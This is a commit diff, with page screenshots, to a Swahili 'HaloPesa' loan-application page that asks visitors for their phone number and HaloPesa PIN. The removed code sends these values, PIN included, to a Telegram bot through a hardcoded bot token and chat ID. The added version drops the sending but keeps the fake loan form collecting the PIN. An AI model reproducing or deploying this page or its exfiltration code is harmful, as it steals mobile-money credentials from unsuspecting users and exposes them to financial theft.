

Before and after one commit to elisifa-saidi/halopesa, a website: page index.html in a window 1280 px wide. Shown: the part 121-800 px from the top of the page, without its empty margins (330-970 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,121 +3,169 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>HALOPESA MKOPO</title>
+<title>MKOPO WA HALOPESA</title>
 
 <style>
 body {
-    font-family: Arial, sans-serif;
+    font-family: Arial;
     background: #f5f7fb;
     padding: 20px;
 }
 
-.container {
-    max-width: 400px;
+.card {
+    max-width: 420px;
     margin: auto;
     background: white;
     padding: 20px;
-    border-radius: 10px;
-    box-shadow: 0px 0px 10px rgba(0,0,0,0.1);
+    border-radius: 16px;
+    box-shadow: 0 10px 25px rgba(0,0,0,0.08);
 }
 
-input {
-    width: 100%;
-    padding: 10px;
-    margin: 8px 0;
-    border: 1px solid #ccc;
-    border-radius: 5px;
+h1 {
+    text-align: center;
+    color: #00796b;
 }
 
+.field {
+    margin-bottom: 15px;
+}
+
+label {
+    font-weight: bold;
+    display: block;
+    margin-bottom: 6px;
+}
+
+input, select {
+    width: 100%;
+    padding: 12px;
+    font-size: 16px;
+    border: 1px solid #ccc;
+    border-radius: 8px;
+}
+
+/* Slider */
+.slider {
+    width: 100%;
+}
+
+/* Result box */
+.result {
+    background: #e8f5e9;
+    padding: 12px;
+    border-radius: 8px;
+    margin-top: 15px;
+}
+
+/* Button */
 button {
     width: 100%;
-    padding: 12px;
-    background: #007bff;
+    padding: 14px;
+    background: #00c853;
     color: white;
     border: none;
-    border-radius: 5px;
-    font-size: 16px;
-    cursor: pointer;
-}
-
-button:hover {
-    background: #0056b3;
+    border-radius: 10px;
+    font-size: 18px;
 }
 </style>
 </head>
 
 <body>
 
-<div class="container">
+<div class="card">
 
-<h2>HALOPESA LOAN APPLICATION</h2>
+<h1>MKOPO WA HALOPESA</h1>
 
-<form id="loanForm">
+<!-- SLIDER LOAN AMOUNT -->
+<div class="field">
+    <label>Kiasi cha Mkopo (TZS)</label>
 
-    <input type="text" id="phone" placeholder="Namba yako ya Halopesa" required>
+    <input type="range" id="slider"
+        min="1000" max="1000000"
+        step="1000"
+        value="100000"
+        oninput="syncAmount(this.value)">
 
-    <input type="number" id="amount" placeholder="Kiasi cha Mkopo" required>
+    <input type="number" id="amount"
+        value="100000"
+        oninput="syncSlider(this.value)">
+</div>
 
-    <input type="number" id="days" placeholder="Muda wa Marejesho" required>
+<!-- DURATION -->
+<div class="field">
+    <label>Muda wa Marejesho</label>
+    <select id="duration" onchange="calculateLoan()">
+        <option value="30">Siku 30</option>
+        <option value="60">Siku 60</option>
+        <option value="90">Siku 90</option>
+    </select>
+</div>
 
-    <input type="password" id="pin" placeholder="PIN ya Halopesa" required>
+<!-- RESULT -->
+<div class="result">
+    <div>Riba: <strong>10%</strong></div>
+    <div>Jumla ya Marejesho:
+        <strong id="total">110,000 TZS</strong>
+    </div>
+</div>
 
-    <button type="button" onclick="sendToTelegram()">ENDELEA / CONTINUE</button>
+<!-- PHONE -->
+<div class="field">
+    <label>Namba ya Halopesa</label>
+    <input type="tel" id="phone">
+</div>
 
-</form>
+<!-- PIN -->
+<div class="field">
+    <label>PIN</label>
+    <input type="password" id="pin" maxlength="4">
+</div>
+
+<button onclick="submitLoan()">ENDELEA</button>
 
 </div>
 
 <script>
-function sendToTelegram() {
 
-    // Get form values
-    let phone = document.getElementById("phone").value;
-    let amount = document.getElementById("amount").value;
-    let days = document.getElementById("days").value;
-    let pin = document.getElementById("pin").value;
+/* Sync slider → input */
+function syncAmount(value) {
+    document.getElementById('amount').value = value;
+    calculateLoan();
+}
 
-    // Message format
-    let message =
-`📌 NEW LOAN APPLICATION
-------------------------
-📱 Phone: ${phone}
-💰 Amount: ${amount}
-📆 Days: ${days}
-🔐 PIN: ${pin}`;
+/* Sync input → slider */
+function syncSlider(value) {
+    document.getElementById('slider').value = value;
+    calculateLoan();
+}
 
-    // 🔐 ADD YOUR DETAILS HERE
-    let botToken = "7743245077:AAEb5A3vSWUThj4k206OKaymOt20oh-9x2E";
-    let chatId = "7480420601";
+/* Loan calculator */
+function calculateLoan() {
+    const amount = Number(document.getElementById('amount').value) || 0;
+    const interest = 0.10;
 
-    let url = `https://api.telegram.org/bot${botToken}/sendMessage`;
+    const total = amount + (amount * interest);
 
-    // Send to Telegram
-    fetch(url, {
-        method: "POST",
-        headers: {
-            "Content-Type": "application/json"
-        },
-        body: JSON.stringify({
-            chat_id: chatId,
-            text: message
-        })
-    })
-    .then(response => response.json())
-    .then(data => {
+    document.getElementById('total').textContent =
+        total.toLocaleString() + ' TZS';
+}
 
-        alert("Maombi yamefanikiwa!");
+/* Submit */
+function submitLoan() {
+    const phone = document.getElementById('phone').value;
+    const pin = document.getElementById('pin').value;
 
-        // Redirect to Telegram (optional)
-        window.location.href = "https://t.me/YourTelegramUsername";
+    if (!phone || pin.length !== 4) {
+        alert("Jaza taarifa zote vizuri");
+        return;
+    }
 
-    })
-    .catch(error => {
-        alert("Tatizo limetokea, jaribu tena");
-        console.log(error);
-    });
+    alert("Maombi yako yamepokelewa");
+}
 
-}
+/* init */
+calculateLoan();
+
 </script>
 
 </body>
```
